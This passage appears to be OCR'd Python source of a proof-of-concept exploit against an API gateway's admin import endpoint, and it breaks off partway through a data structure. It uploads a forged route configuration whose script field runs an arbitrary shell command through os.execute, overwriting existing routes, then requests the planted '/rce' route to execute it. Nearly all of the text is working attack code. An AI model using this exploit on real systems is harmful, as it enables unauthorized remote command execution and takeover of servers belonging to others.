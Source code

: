 ```
    create_route(payload, url)
    request_endpoint(gateway_url)

def request_endpoint(gateway_url):
    res = requests.get(gateway_url + "/rce")
    print(res.text)

def create_route(payload, url):
    files = {
        'file': ('test', payload)
    }
    data = {
        'mode': 'overwrite'
    }
    res = requests.post(url + '/apisix/admin/migrate/import', files=files, data=data)
    print(res.text)

def gen(cmd):
    data = {
        "Counsumers": [],
        "Routes": [
            {
                "id": "387796883096994503",
                "create_time": 1640674554,
                "update_time": 1640677637,
                "uris": ["/rce"],
                "name": "rce",
                "methods": [
                    "GET",
                    "POST",
                    "PUT",
                    "DELETE",
                    "PATCH",
                    "HEAD",
                    "OPTIONS",
                    "CONNECT",
                    "TRACE"
                ],
                "script": f"os.execute('{cmd}')",
                "script_id": "387796883096994503",
                "upstream_id": "387796832866009799",
                "status": 1
            }
        ],
        "Services": [],
        "SSLs": [],
        "Upstreams": [
            {
                "id": "387796832866009799",
                "create_time": 1640674524,
                "update_time": 1640674524,
                "nodes": [
                    {
                        "host": "localhost",
                        "port": 1337,
                        "weight": 1
                    }
                ],
                "timeout": {
                    "connect": 6,
                    "read": 6,
                    "send": 6
                },
```